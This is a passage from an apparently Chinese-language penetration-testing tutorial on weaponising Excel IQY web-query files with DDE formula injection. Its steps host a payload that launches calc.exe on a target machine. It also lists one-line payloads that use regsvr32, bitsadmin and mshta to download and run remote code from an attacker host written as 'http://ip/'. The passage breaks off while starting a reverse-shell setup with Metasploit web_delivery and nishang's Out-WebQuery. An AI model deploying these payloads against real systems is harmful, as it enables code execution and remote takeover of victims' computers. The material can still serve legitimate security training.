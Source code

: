  在我们自己的服务器的网站目录下放一个payload.html文件，内容是IYQ代码

```html
=cmd|'/c calc.exe '!A0
```

接下来就是按照之前的方法，来拉取我们自己服务器上的payload文件

![hufxL.png](https://s3.jpg.cm/2021/03/30/hufxL.png)

导入

![huzlf.png](https://s3.jpg.cm/2021/03/30/huzlf.png)

点击是，即可弹出计算器

![huhzi.png](https://s3.jpg.cm/2021/03/30/huhzi.png)

将文件保存，放在靶机打开

![huyIk.png](https://s3.jpg.cm/2021/03/30/huyIk.png)

点击启用内容，继续点击是，即可弹出计算器。

![hu9Ue.png](https://s3.jpg.cm/2021/03/30/hu9Ue.png)

其他方式

```cmd
regsvr32
=cmd|'/c regsvr32 /s /n /u /i:http://ip/D4zv0M.sct scrobj.dll '!A0
bitsadmin
 =cmd|'/c bitsadmin /transfer e822 http://ip/iqy %APPDATA%\e822.exe&%APPDATA%\e822.exe&del %APPDATA%\e822.exe '!A0
mshta
 =cmd|'/c mshta http://ip/iqy.hta '!A0

```



**接下来进行弹shell操作**

用到的工具：

```txt
nishang：
https://github.com/samratashok/nishang/releases
```

先在kali准备好payload:

```bash
exploit/multi/script/web_delivery
```

![huTwy.png](https://s3.jpg.cm/2021/03/30/huTwy.png)

用nishang中提供好的Out-WebQuery脚本来生成iqy文件
